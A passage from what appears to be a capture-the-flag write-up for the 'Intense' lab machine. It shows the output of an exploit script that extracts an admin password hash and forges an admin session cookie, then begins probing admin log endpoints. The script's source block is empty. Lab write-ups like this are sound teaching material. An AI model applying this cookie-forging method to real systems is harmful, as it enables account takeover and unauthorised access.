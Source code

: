 ```python
```

Now let us run the script:

```python
root@darkness:~# python3 hack.py 

[100.00%] Got part of hash: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
[+] Got hash from user admin:
f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
[+] Got sample cookie: dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ
[*] Forging admin cookie...
[+] Got valid cookie: {'auth': 'dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMQO3VzZXJuYW1lPWFkbWluO3NlY3JldD1mMWZjMTIwMTBjMDk0MDE2ZGVmNzkxZTE0MzVkZGZkY2FlY2NmODI1MGUzNjYzMGMwYmM5MzI4NWMyOTcxMTA1Ow==.rCSW8yNC56vPUg8xyFejgFHvOsGvS5E81v9XF23tG+8='}
```

Running the script, we get a valid admin cookie. Let us paste the cookie-value and check out the /admin endpoint.

![/admin page](/assets/htb/Intense/web/admin-webpage.png)

### Enumerating the admin endpoints

Let us try to access http://10.10.10.195/admin/log/dir and  http://10.10.10.195/admin/log/view using the cookie we have:
